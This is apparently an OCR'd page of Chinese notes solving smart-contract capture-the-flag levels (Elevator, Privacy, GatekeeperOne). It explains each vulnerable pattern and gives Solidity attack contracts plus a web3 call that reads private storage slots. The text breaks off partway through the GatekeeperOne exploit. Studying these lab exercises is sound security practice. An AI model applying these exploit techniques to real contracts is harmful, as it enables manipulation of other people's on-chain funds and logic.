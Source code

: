 ## 11-elevator

使用接口来接受地址，调用传递进来地址对应合约的方法，这样方法的逻辑本合约内不可控，容易出现意外被攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Elevator.sol";

contract Hack {
    bool entried;
    Elevator private immutable elevator;

    constructor(address _target) {
        elevator = Elevator(_target);
    }
    function isLastFloor(uint) external returns (bool){

        if(entried) {
            return true;
        } else {
            entried = true;
            return false;
        }
    }

    function hack() public {
        elevator.goTo(3);
    }
}
```

## 12-privacy

private 数组中的元素也是可以通过 slot 获取的  
await web3.eth.getStorageAt(contract.address, 5)

## 13-gatekeeperOne

msg.sender != tx.origin，需要借助合约攻击；  
uint32(k) ！= uint64(k), 构造的 64 位数，高位要和 32 位不同，但是 uint16 是根据 tx.origin 推算的;  
gas 剩余要能被 8191 整除，所以交易带的 gas 要是 8191 的整数倍+消耗的 gas，消耗的 gas 通过测试调试一下,这关是 256

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./GateKeeperOne.sol";

contract HackOne{

    GatekeeperOne  private immutable gateKeeperOne;

    constructor(address _target) {
        gateKeeperOne = GatekeeperOne (_target);
    }

    function hack(uint256 gas) external {
        bytes8 gateKey;

        gateKey = bytes8(uint64(1<<63) + uint64(uint16(uint160(tx.origin))));
```